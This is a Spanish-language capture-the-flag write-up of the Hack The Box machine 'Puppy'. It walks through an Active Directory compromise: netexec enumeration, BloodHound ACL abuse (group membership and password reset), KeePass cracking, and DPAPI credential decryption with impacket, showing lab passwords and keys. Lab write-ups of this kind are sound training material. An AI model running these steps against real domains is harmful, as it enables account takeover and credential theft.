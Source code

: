# Puppy

- **Plataforma:** HTB 
- **Fecha de resolución:** 26/07/2025
- **Autor:** Albr_0x4a

---

## Escaneo de Puertos con Nmap:

- **Identificar puertos abiertos:**

- **Comando:** nmap -p- -n -Pn --min-rate 5000 -sS 10.10.11.70 -oG ports

- **Identificar servicios y versiones en los puertos abiertos:**

- **Comando:** nmap -p53,88,111,135,139,389,445,464,593,636,2049,3260,3268,3269,5985,9389,49664,49667,49671,49674,54485,54494,54509 -sCV 10.10.11.70 -oN target

![](./screenshots/open_ports.png)

- Una vez obtenidos los puertos abiertos, nos damos cuenta que tenemos un entorno de `AD`, empezamos a investigar, primero por el servicio **SMB** con las credenciales que nos brinda HTB para esta máquina, y buscamos qué recursos compartidos tenemos y posible información expuesta. 

- Después de no encontrar nada de interés en los recursos compartidos, listamos los usuarios utilizando `netexec`:

```bash
netexec smb $IP -u "levi.james" -p 'KingofAkron2025!' --users

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.70     445    DC               Administrator                 2025-02-19 19:33:28 0       Built-in account for administering the computer/domain 
SMB         10.10.11.70     445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.70     445    DC               krbtgt                        2025-02-19 11:46:15 0       Key Distribution Center Service Account 
SMB         10.10.11.70     445    DC               levi.james                    2025-02-19 12:10:56 0        
SMB         10.10.11.70     445    DC               ant.edwards                   2025-02-19 12:13:14 0        
SMB         10.10.11.70     445    DC               adam.silver                   2025-07-23 20:19:29 0        
SMB         10.10.11.70     445    DC               jamie.williams                2025-02-19 12:17:26 0        
SMB         10.10.11.70     445    DC               steph.cooper                  2025-02-19 12:21:00 0        
SMB         10.10.11.70     445    DC               steph.cooper_adm              2025-03-08 15:50:40 0        
SMB         10.10.11.70     445    DC               [*] Enumerated 9 local users: PUPPY
```

- Para tener una idea generalizada de cómo se relacionan todos estos objetos dentro del entorno de `AD`, utilizamos `bloodhound`, para ello primero extraemos la información con `netexec`:

```bash
netexec ldap puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --bloodhound --collection All --dns-server 10.10.11.70
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.10.11.70     389    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
LDAP        10.10.11.70     389    DC               Resolved collection methods: group, localadmin, session, rdp, dcom, psremote, container, objectprops, acl, trusts
LDAP        10.10.11.70     389    DC               Done in 00M 20S
LDAP        10.10.11.70     389    DC               Compressing output into /root/.nxc/logs/DC_10.10.11.70_2025-07-23_160327_bloodhound.zip
```

- Luego lanzamos `bloodhound` y cargamos todos los archivos que nos generó el comando anterior.

- Tras un rato investigando, notamos que el usuario `levi.james`, al que tenemos acceso, pertenece al grupo `HR`, el cual posee el privilegio `GenericWrite` sobre el grupo `DEVELOPERS`, lo cual nos permite agregar usuarios a este grupo, con el siguiente comando:
  
  ```bash
  net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "dc.puppy.htb"
  ```

- Revisamos nuevamente los recursos compartidos, para comprobar si ahora tenemos los privilegios del grupo `DEVELOPERS`, y efectivamente ahora tenemos permiso para acceder y leer el contenido del recurso `DEV`, el cual antes no teníamos.

![](./screenshots/smb_levi.png)

![](./screenshots/dev_share.png)

- En este directorio obtenemos el archivo `recovery.kdbx` el cual es una base de datos cifrada, utilizada por el gestor de contraseñas `KeePassXC`. Si utilizamos la herramienta `keepass2john`, podemos obtener el hash e intentar obtener la contraseña de esta base de datos.

![](./screenshots/crack_recovery_kdbx.png)

- Con esta contraseña podemos acceder a la base de datos, y obtenemos todas las contraseñas de los usuarios almacenadas en la base de datos.

![](./screenshots/recovery_kdbx.png)

- Después de probar las contraseñas, encontramos que la única que funciona es la del usuario `ant.edwards`, quien luego de investigarlo nos encontramos con que pertenece al grupo `SENIOR DEVS` que posee el permiso `GenericAll` sobre el usuario `adam.silver`, lo que significa que tenemos control absoluto sobre este usuario.

![](./screenshots/generic_all.png)

- Para abusar de este privilegio vamos a tratar de reiniciar la contraseña de el usuario `adam.silver`, para obtener el control de este usuario.

![](./screenshots/adam_change_password.png)

- De manera exitosa logramos cambiar la contraseña, pero al tratar de acceder nos encontramos con que la cuenta no está habilitada, por lo que la habilitamos y accedemos a la máquina ya que el usuario `adam.silver` pertenece al grupo `REMOTE MANAGEMENT USERS`.

![](./screenshots/winrm.png)

- Ya dentro de la máquina, navegamos hasta el escritorio del usuario y obtenemos la primera flag.

![](./screenshots/user_flag.png)

- Luego de explorar un poco, encontramos un directorio `Backups` en el directorio `C:\`, el cual contiene un arhcivo `.zip` que nos descargamos a nuestra máquina para inspeccionarlo mejor.

![](./screenshots/download_zip.png)

- Al descomprimir este archivo, nos encontramos con una página web, y un archivo `nms-auth-config.xml.bak`, que contiene credenciales del usuario `steph.cooper` que también pertenece al grupo `REMOTE MANAGEMENT USERS` y podemos conectarnos a la máquina de igual forma.

![](./screenshots/zip_creds.png)

- Una vez dentro del sistema como el usuario `steph.cooper`, y después de un tiempo navegando y enumerando el sistema nos encontramos con una **masterkey** de **DPAPI**, esta se utiliza para cifrar datos sensibles, aqui dejo un recurso para más información sobre **DPAPI**: [enlace](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)

![](./screenshots/dpapi_directory.png)

- Al intentar descargar el archivo utilizando `evil-winrm`, obtenemos un error, por lo que procedemos a obtener el archivo utilizando base64.

![](./screenshots/masterkey_base64.png)

- Una vez obtenido este archivo, con la herramienta `dpapi.py` de impacket procedemos a obtener la key cifrada, utilizando la misma contraseña que ya tenemos del usuario `steph.cooper`:

```bash
dpapi.py masterkey -file encrypted_file -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Password:
Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

- Luego de buscar en varias rutas donde se suelen almacenar estos datos sensibles, encontramos posibles credenciales cifradas en la ruta `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9`, y procedemos a obtener este archivo utilizando nuevamente base64.

![](./screenshots/credentials.png)

- Utilizamos nuevamente la herramienta `dpapi.py` para obtener el contenido cifrado, y obtenemos las credenciales del usuario `steph.cooper_adm`, el cual tiene privilegios de administrador:

```bash
dpapi.py credential -file encrypted_file -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

- Por último nos conectamos al sistema, navegamos a `C:\Users\Administrator\Desktop\`, y obtenemos la flag.

![](./screenshots/root_flag.png)